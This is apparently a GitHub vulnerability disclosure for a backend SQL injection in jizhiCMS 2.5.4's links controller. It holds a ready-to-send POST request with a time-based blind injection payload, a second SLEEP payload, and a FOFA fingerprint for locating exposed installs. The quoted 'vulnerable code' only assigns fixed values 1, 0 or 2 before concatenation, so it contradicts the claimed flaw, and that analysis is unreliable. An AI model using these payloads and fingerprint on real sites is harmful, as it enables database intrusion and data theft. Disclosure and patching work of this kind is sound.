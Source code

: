# jizhicms-sql
The jizhicms version 2.5.4 contains a backend SQL injection vulnerability.
There is a backend SQL injection vulnerability in jizhiCMS version 2.5.4.
Fingerprint
fofa:icon_hash="1657387632"
SQL Injection Vulnerability
The vulnerable file is located at:
jizhicms-2.5.4/app/admin/c/LinksController.php
This is where the backend SQL injection vulnerability exists in jizhiCMS version 2.5.4.
Vulnerability PoC (Proof of Concept)：



POST /index.php/admins/Links/addlinks/molds/links.html HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Priority: u=0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept: */*
X-Requested-With: XMLHttpRequest
Referer: http://154.217.245.237:1234/index.php/admins/Links/addlinks/tid/1/molds/links.html
Cookie: PHPSESSID=umgc0aguscmvgmjv96mvjmpd81
Accept-Encoding: gzip, deflate
Origin: http://154.217.245.237:1234
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Content-Length: 47

go=1&tid=1&title=qwd&url=www.baidu.com&isshow=1'and(select*from(select+sleep(6))a/**/union/**/select+1)='



Vulnerability Type: Backend SQL Injection
Affected File/Function: LinksController.php – Parameter handling for isshow
Component: jizhiCMS 2.5.4
Attack Vector: Authenticated POST request
Vulnerable Code:
if($this->frparam('isshow')){
    if($this->frparam('isshow')==1){
        $isshow=1;
    }else if($this->frparam('isshow')==2){
        $isshow=0;
    }else{
        $isshow = 2; // default fallback
    }
    $sql .= ' and isshow='.$isshow; // directly concatenated
}
Description:

This code is vulnerable to SQL injection due to the direct concatenation of unvalidated user input ($isshow) into the SQL query string. While the application attempts to convert the isshow parameter to specific numeric values (1 or 0), it fails to enforce strong input validation or type safety. If an attacker supplies a specially crafted payload through isshow, such as:
isshow=1' AND (SELECT * FROM (SELECT SLEEP(5))a) AND '1'='1
The application may construct a query that causes SQL logic manipulation or time-based blind injection, depending on the database context.

Impact:
Unauthorized SQL execution
Information disclosure
Potential remote code execution (if combined with other vulnerabilities)
Database integrity compromise
Recommendation:
Sanitize and strictly cast input values to expected types (e.g., use (int)$this->frparam('isshow'))
Replace raw SQL concatenation with prepared statements (parameterized queries)

![image](https://github.com/user-attachments/assets/476d6f79-36af-46a7-a087-2debeb7fc467)
![image](https://github.com/user-attachments/assets/fbba5834-5a02-42e3-b8b1-72be96c69872)



